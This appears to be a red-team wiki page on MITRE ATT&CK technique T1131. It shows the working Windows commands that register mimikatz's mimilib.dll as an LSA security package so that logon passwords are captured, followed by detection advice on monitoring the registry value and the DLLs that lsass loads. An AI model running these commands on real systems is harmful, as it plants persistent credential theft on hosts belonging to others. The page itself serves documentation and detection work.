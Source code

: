 ```yaml
---
description: Persistence
---
```


# T1131: Authentication Packages

This technique abuses Windows Authentication Packages and injects a DLL into the LSA process. For this, mimikatz library mimilib.dll will be used. It will serve as a keylogger and save logon passwords next time someone will attempt a logon to the host.

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Check which LSA Security Packages are already on the list:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Add mimilb to the Security Support Providers:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```c
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
Value Security Packages exists, overwrite(Yes/No)? y
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` key for changes. Newly added packages should be inspected:

![](../.gitbook/assets/lsa-commandline.png)

The below shows the screens of the Security Packages registry value with the **mimilib** injected and the kiwissp.log file that shows a redacted password that had been logged that we typed in during the logon \(not shown in these screenshots nor the process was described\):

![](../.gitbook/assets/lsa-security-packages.png)

As expected, mimilib.dll can be observed in the list of DLLs loaded by the lsass.exe process. Make a baseline of loaded known good DLLs and monitor for any new DLLs:

![](../.gitbook/assets/lsa-loaded-dll.png)

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

